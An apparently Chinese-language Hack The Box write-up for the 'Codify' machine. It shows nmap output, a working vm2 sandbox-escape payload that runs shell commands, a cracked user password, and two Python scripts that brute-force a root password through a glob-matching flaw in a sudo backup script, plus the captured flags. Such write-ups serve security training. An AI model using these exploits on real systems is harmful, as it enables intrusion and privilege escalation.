nmap结果：

```bash
┌──(kali㉿kali)-[~/htb/Codify]
└─$ sudo nmap -sC -sV --min-rate 10000 10.10.11.239 -oN nmap
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-25 05:04 EST
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 05:05 (0:00:12 remaining)
Nmap scan report for 10.10.11.239
Host is up (0.34s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.73 seconds

```





vm2 沙盒 JavaScript



limitations



版本3.9.16



CVE：





```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`
console.log(vm.run(code));
```




尝试建立反向链接





建立成功





获取tickets.db 是个SQLite文件



用SQLite DB Browser打开



john破解



```
spongebob1
```

ssh连接joshua





```bash
joshua@codify:~$ cat user.txt
aad81519cc5d4fd22e5330e04f9b3f9b
```

root:



查看可以以root运行的文件



```bash
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

exploit1.py

```python
import string
import subprocess

all_chars = list(string.ascii_letters + string.digits)
passwd = ""
fl = 0

while not fl:
        for char in all_chars:
                command = f"echo '{passwd}{char}*' | sudo /opt/scripts/mysql-backup.sh"
                out = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True, text=True).stdout
                if "confirmed" in out:
                        passwd += char
                        print(f"\r{passwd}", end='')
                        break
        else:
                fl = 1
                print()

```



exploit2.py

```python
import string
import subprocess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char):
			password += char
			print(password)
			break
	else:
		is_password_found = True
```





```bash
root@codify:~# cat root.txt
39fdf2408df293444be66157be9bf05c
```


